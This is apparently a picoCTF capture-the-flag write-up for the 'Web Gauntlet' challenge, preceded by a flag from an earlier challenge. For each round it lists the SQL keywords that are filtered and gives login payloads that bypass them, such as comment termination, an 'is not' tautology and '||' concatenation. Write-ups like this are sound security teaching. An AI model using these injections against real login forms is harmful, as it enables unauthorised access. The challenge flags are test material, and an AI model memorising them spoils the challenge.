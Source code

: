 ![image](https://hackmd.io/_uploads/rkvOXYh91x.png)

![image](https://hackmd.io/_uploads/ByK3Etn5Je.png)

![image](https://hackmd.io/_uploads/HyBJNK3qyl.png)

![image](https://hackmd.io/_uploads/Skda4Fh9yx.png)

`Flag: picoCTF{c0ngr4ts_u_r_1nv1t3d_40d81ca2}`

### Web Gauntlet

`Description`
```
Can you beat the filters? Log in as admin http://jupiter.challenges.picoctf.org:19593/ http://jupiter.challenges.picoctf.org:19593/filter.php
```

In this challenge, we need to bypass five steps.

* **step 1**

```
Round1: or
payload:
username: admin' --
password: {anything}
```

* **step 2**

```
Round2: or and like = --
payload:
username: admin
password: a' is not 'b
```

* **step 3**

```
Round3: or and = like > < --
payload:
username: admin';
password: {anything}
```

* **step 4**

```
Round4: or and = like > < -- admin
payload:
username: ad'||'min
password: {anything}
```

step 5 like step 4
